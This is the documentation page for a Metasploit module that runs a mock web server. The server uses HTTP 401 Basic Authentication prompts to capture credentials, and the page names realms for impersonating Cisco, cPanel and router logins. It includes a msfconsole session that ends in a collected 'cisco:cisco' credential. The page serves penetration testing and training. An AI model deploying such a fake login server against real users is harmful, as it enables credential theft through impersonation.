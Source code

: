This module creates a mock web server which, utilizing a HTTP 401 response, prompts the user to enter credentials for Basic Authentication.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/http_basic```
  3. Do: ```run```

## Options

  **REALM**

  The Realm for the Basic Authentication, which may be displayed in the input box to the user.
  Default is `Secure Site`.
  Some notable Realms to emulate:

  * `level_15 or view_access`
  * `cPanel`
  * `HuaweiHomeGateway`
  * `Broadband Router`

  **RedirectURL**

  After the user enters a set of credentials, their browser will be redirected to this address.  Default is ``.

  **SSL**

  Boolean if SSL should be used, making this HTTPS.  HTTPS is typically run on port 443.  If `SSLCert` is not set, a certificate
  will be automatically generated.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

  **URIPATH**

  What URI should be utilized to prompt for the Basic Authentication.  For instance, you may want this to run on `/cisco` if you use
  the `REALM` `level_15 or view_access`.  Default is ``, which will randomly generate a URIPATH.

## Scenarios

### Cisco Emulator with wget Client

Server:

```
msf > use auxiliary/server/capture/http_basic 
msf auxiliary(server/capture/http_basic) > set REALM "level_15 or view_access"
REALM => level_15 or view_access
msf auxiliary(server/capture/http_basic) > set uripath '/cisco'
uripath => /cisco
msf auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/cisco
[*] Local IP: http://10.1.1.1:80/cisco
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "cisco:cisco" => /cisco
```
